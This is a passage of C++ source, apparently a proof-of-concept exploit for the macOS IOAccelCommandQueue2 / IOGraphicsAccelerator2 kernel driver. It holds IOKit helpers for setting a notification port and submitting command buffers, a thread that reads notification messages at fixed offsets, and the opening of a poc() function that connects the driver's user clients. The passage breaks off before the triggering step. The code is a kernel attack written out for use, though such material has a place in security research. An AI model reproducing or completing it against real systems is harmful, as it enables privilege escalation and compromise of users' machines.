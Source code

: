 ```cpp

static void
IOAccelCommandQueue2_set_notification_port(io_connect_t IOAccelCommandQueue2, mach_port_t notification_port) {
    kern_return_t kr = IOConnectCallAsyncMethod(IOAccelCommandQueue2,
            IOAccelCommandQueue2_set_notification_port_selector,
            notification_port,
            NULL, 0,
            NULL, 0,
            NULL, 0,
            NULL, NULL,
            NULL, NULL);
    assert(kr == KERN_SUCCESS);
}

static void
IOAccelCommandQueue2_submit_command_buffers(io_connect_t IOAccelCommandQueue2,
        const struct IOAccelCommandQueueSubmitArgs_Header *submit_args,
        size_t size) {
    kern_return_t kr = IOConnectCallMethod(IOAccelCommandQueue2,
                 IOAccelCommandQueue2_submit_command_buffers_selector,
                 NULL, 0,
                 submit_args, size,
                 NULL, NULL,
                 NULL, NULL);
    assert(kr == KERN_SUCCESS);
}

static void *
notification_recv_func(void *arg) {
    mach_port_t notification_port = (mach_port_t)(uintptr_t)arg;
    for (;;) {
        struct {
            mach_msg_header_t hdr;
            uint8_t data[0x4000];
        } msg = {};
        kern_return_t kr = mach_msg(&msg.hdr, MACH_RCV_MSG, 0,
                sizeof(msg), notification_port,
                MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        if (kr == KERN_SUCCESS) {
            int error = *(int *)((uint8_t *)&msg + 0x94);
            uint64_t notify = *(uint64_t *)((uint8_t *)&msg + 0x64);
            printf("notification %llx: error = %d\n", notify, error);
        }
    }
}

void poc() {
    kern_return_t kr;

    io_service_t IOGraphicsAccelerator2 = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching("IOGraphicsAccelerator2"));
    assert(IOGraphicsAccelerator2 != IO_OBJECT_NULL);
    io_connect_t IOAccelCommandQueue2 = MACH_PORT_NULL;
    IOServiceOpen(IOGraphicsAccelerator2, mach_task_self(), IOAccelCommandQueue2_type, &IOAccelCommandQueue2);
    assert(IOAccelCommandQueue2 != IO_OBJECT_NULL);
    io_connect_t IOAccelSharedUserClient2 = MACH_PORT_NULL;
    IOServiceOpen(IOGraphicsAccelerator2, mach_task_self(), IOAccelSharedUserClient2_type, &IOAccelSharedUserClient2);
    assert(IOAccelSharedUserClient2 != IO_OBJECT_NULL);

    kr = IOConnectAddClient(IOAccelCommandQueue2, IOAccelSharedUserClient2);
```